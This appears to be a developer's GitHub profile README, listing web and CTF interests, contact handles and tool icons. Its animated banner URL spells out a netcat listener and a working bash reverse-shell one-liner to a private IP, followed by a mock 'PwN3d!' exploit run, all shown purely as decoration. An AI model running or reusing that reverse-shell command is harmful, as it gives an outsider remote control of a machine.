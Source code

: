 <h1>Hi I'm <i><a href="https://github.com/r-xolboyev" rel="nofollow"><b>Xolboyev</b></i></a>, And I'm...</h1>

<img align="right" width="330" src="https://media.giphy.com/media/v1.Y2lkPWVjZjA1ZTQ3bDFoeTM2ZHY0YzY1aXZyeDVqeWlqMTUyZTlweHM0d2NqcHV5Z3VjZCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/ToMjGplujsIS6kHzUPK/giphy.gif" alt="coding">

<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&duration=2700&pause=100&color=0034ff&multiline=true&width=500&height=350&lines=nc+-lvnp+4444;listening+on+%5Bany%5D+4444+...;connect+to+%5BXolboyev%5D++profile+;bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.44.38%2F4444+0%3E%261;Xolboyev%40profile%3A~%24+.%2Fexploit.py;+;...................PwN3d!......................................;Hello+Stranger!+Xolboyev+is+serving+here...;...............................................................;++;%24+whoami;Xolboyev" alt="Typing SVG" /></a>

<p align="left">
  <img src="https://komarev.com/ghpvc/?username=r-xolboyev&label=Profile%20views&color=0e75b6&style=flat" alt="xolboyev" />
    &nbsp;
  <img src="https://badges.frapsoft.com/os/v1/open-source.svg?v=102" alt="Open Source Love"" />
</p>


```javascript
const data = {
    pronouns: ["He" | "Him"],
    codename: "xolboyev.",
    status: "still alive",
    doing: "Forging Web Realms...",
    hobbies: ["{Coding}", "{CTF}", "{Speedcubing}", "{Gaming}"], // If that even matters lol
    code: ["{Python}", "{Javascript}", "{Typescript}", "{Bash}"],
    webdev: {
        frontEnd: {
            technologies: ["HTML", "CSS", "JavaScript", "Bootstrap", "React JS", "Tailwind CSS"],
        },
        backEnd: {
            technologies: ["Node JS", "Express JS", "Next JS", "SQL"],
        }
    },
    contact: {
        email: "xolboyev-1@proton.me",
        instagram: "@_.xolboyev_1._"
    },
};
```

<h3 align="left">Languages and Tools:</h3>
<img align="left" alt="linux" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/linux/linux-original.svg" style="padding-right:10px;" />
<img align="left" alt="arch" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/archlinux/archlinux-original.svg" style="padding-right:10px;" />
<img align="left" alt="neovim" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/neovim/neovim-original.svg" style="padding-right:10px;" />
<img align="left" alt="python" width="26px" src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" style="padding-right:10px;" />
<img align="left" alt="HTML5" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/html5/html5-original.svg" style="padding-right:10px;" />
<img align="left" alt="CSS3" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/css3/css3-original.svg" style="padding-right:10px;" />
<img align="left" alt="JavaScript" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/javascript/javascript-original.svg" style="padding-right:10px;" />
<img align="left" alt="tailwind" width="33px" src="https://devicon-website.vercel.app/api/tailwindcss/plain.svg" style="padding-right:10px;" />
<img align="left" alt="tailwind" width="26px" src="https://cdn.worldvectorlogo.com/logos/framer-motion.svg" style="padding-right:10px;" />
<img align="left" alt="React" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/react/react-original.svg" style="padding-right:10px;" />
<img align="left" alt="Node.js" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/nodejs/nodejs-original.svg" style="padding-right:10px;" />
<img align="left" alt="MongoDB" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mongodb/mongodb-original.svg" style="padding-right:10px;" />
<img align="left" alt="MySQL" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mysql/mysql-original.svg" style="padding-right:10px;" />
<img align="left" alt="Git" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/git/git-original.svg" style="padding-right:10px;" />
<img align="left" alt="GitHub" width="26px" src="https://user-images.githubusercontent.com/3369400/139447912-e0f43f33-6d9f-45f8-be46-2df5bbc91289.png" style="padding-right:10px;" />
<img align="left" alt="Terminal" width="26px" src="https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fmedia.vlpt.us%2Fimages%2Fdhlee91%2Fpost%2F2825c6cc-2f27-4ee3-adc3-4f2fb2b6d1cb%2FLinux-Terminal-icon.png&f=1&nofb=1&ipt=90279d5891412b4d79fcb58b9e0ad9d9aa1312df26603bae36893fdf7195967e" />
<br>
<br>

